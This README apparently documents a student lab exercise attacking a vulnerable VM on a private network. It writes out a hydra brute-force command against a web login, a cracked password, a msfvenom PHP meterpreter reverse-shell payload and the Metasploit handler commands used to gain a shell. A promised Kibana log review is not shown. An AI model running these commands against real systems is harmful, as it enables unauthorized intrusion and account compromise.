 # Red-Team-VS-Blue-Team-Project
Acted as a red team to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team to use Kibana to review logs taken during the attack implemented as the red team.

   Red Team
Ifconfig to find out network IP address and network range   ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

Netdiscover -r 192.168.1.255/16 Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. 
After running the command we can conclude that there are 3 hosts within the network with the IPs of 192.168.1.1 , 192.168.1.100 and 192.168.1.105.
Now we need to discover what machine we need to get access to 
After checking up on the IPs we can conclude that 192.168.1.105 ended up being a web server.   
After checking the website we see open directories that show company information showing that this is a vulnerability in itself. 
And while exploring through the files we see an important directory being mentioned by the name of a secret_folder. Which can end up containing PII or important company documents. 
After going in the URL bar and typing in the secret folder found 192.168.1.105/company_folders/secret_folder it then shows a login prompt meant for “Ashton” only. 
After getting a username for a potential login we can then try to brute force the login by using hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder command. 
After using the command we successfully brute force the account and was able to retrieve the login information for ashton 


Logging in the account then brings us to a personal note Ashton then made for himself containing other important information 
A note that hes going to be using Ryans account 
after researching more on the web server we found that Ryan is the CEO of the company.
Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen
Next step is to figure out the login to the file directory dav://192.168.1.105/webdav/ using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
Cracking the hash we find the password is linux4u
Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php
Once the reverse shell script is created we can now upload it to the shared directory to run it. 
Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
The commands would be used in this order to begin the listening 
Msfconsole -q
Use exploit/multi/handler
Set payload php/meterpreter/reverse_tcp
(same payload script as the one we copied to the shared directory)
Set LHOST 192.168.1.90
Ip of machine we want to listen on 
Set LPORT 4444
Port we want to listen on
Show options 
To see if all the settings we had set are correct
Run
To execute the listening process


Once this is completed we can now run the actual script through the shared directory dav://192.168.1.105/webdav which then after will then open up meterpreter on our host machine to show that we have now established connection 
After having the session open we can run basic commands to grab any other additional information about the system we got access to like getuid. We can also open up a shell terminal if needed by using the command shell.
We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

